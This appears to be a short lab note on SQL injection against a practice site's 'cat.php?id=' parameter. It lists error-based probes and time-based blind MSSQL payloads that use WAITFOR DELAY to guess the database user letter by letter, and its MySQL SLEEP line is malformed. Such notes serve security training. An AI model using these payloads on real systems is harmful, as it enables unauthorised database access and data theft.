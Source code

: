 #Error-Based SQL Injection

Victim URL [http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2](http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2)

```
Query :
SELECT * FROM articles WHERE id=2
```

1. Using quotes: single quote or double quote.
				
	- Receiving the error 
					
2. Using back-ticks.
				
	- Receiving the error 
					
3. Adding Correct Syntax 
					
	- sending the correct or wrong syntax to see the difference
				
				http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20AND%201=0
				Final Querying Look-------------------> SELECT id,name,price FROM articles WHERE id=2 AND 1=2



#Blind SQL Injection
			
1. Verification of the response  
					
	- sending the sleeping time or sending sleeping time with comparison to see the difference
				
				
MSSQL

	?id=2; IF ((USER)='dbo') WAITFOR DELAY '00:00:10'--
	?id=2; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'-- 
	?id=2; IF (ASCII(lower(substring((USER),1,1)))=99) WAITFOR DELAY '00:00:10'--
	?id=2; IF (ASCII(lower(substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'--  If it waits for the reply then first character in the database is d 

MYSQL

	?id=2 SLEEP '00:00:10'--

